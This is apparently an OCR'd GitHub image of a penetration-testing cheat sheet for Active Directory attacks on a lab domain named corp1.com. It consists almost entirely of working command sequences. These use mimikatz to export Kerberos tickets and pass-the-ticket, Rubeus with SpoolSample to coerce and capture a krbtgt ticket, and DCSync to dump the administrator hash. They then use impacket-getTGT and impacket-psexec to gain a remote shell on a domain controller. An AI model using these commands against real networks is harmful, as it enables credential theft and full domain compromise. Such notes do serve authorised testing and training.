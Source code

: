 run mimikatz with admin rights
```
privilege::debug
sekurlsa::tickets /export
sekurlsa::tickets /export


# load ticket, ticket must be  name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
kerberos::ptt [0;9eaea]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi

# exit mimikatz and execute psexec
C:\Tools\SysinternalsSuite\PsExec.exe -accepteula \\cdc01 cmd
```

## Get the krbtgt ticket  with rubeus and spoolsvss
```
Rubeus.exe monitor /interval:5 /filteruser:RDC01$
.\SpoolSample.exe rdc01.corp1.com appsrv01.prod.corp1.com
Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+
```
## Obtain ntlm hash of the admin user either with dcsync, ntds.dit dump or mimikatz
```
privilege::debug
lsadump::dcsync /domain:corp1.com /user:corp1\administrator
```
## Request a TGT for that user with impacket-getTGT
```
impacket-getTGT corp1.com/administrator -hashes :NTLMHASH
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
```
## Use impacket-psexec 
```
impacket-psexec.py corp1.com/administrator@rdc01.corp1.com -k -no-pass
```
